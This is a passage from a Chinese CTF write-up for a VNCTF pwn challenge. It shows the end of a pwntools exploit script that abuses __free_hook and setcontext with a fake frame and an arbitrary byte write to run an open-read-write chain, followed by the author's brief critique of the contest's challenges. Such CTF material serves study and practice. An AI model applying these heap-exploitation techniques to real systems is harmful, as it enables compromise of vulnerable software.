    payload = p64(libc_base + 0x154B20) + p64(libc_base + libc.sym['__free_hook'] + 0x28) + p64(0) * 2 + p64(libc_base + libc.sym['setcontext'] + 61)
    payload += bytes(fake_frame)

    p.recvuntil(b"You can write a byte anywhere")
    p.send(p64(libc_base + 0x1ea2d0 + 1))
    p.recvuntil(b"And what?")
    p.send(p8(0xff))
    p.recvuntil(b"Offset:")
    p.sendline(str(2280))
    p.recvuntil(b"Content:")
    p.send(p64(libc_base + libc.sym['__free_hook']))
    p.recvuntil(b"size:")
    p.sendline(str(0x1600))
    p.recvuntil(b">>")
    p.send(payload)
    sleep(1)
    p.send(orw)
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行即可获得 flag



## 个人感受

> u1s1笔者个人感觉这一次VNCTF出的题…虽然说能够让人学到新的东西，但是个人感觉部分题质量不大行，好像是为了出题而出题（x）（出题师傅轻点锤QAQ）
> 
> 引用某个 pwn 👴👴的一句话就是：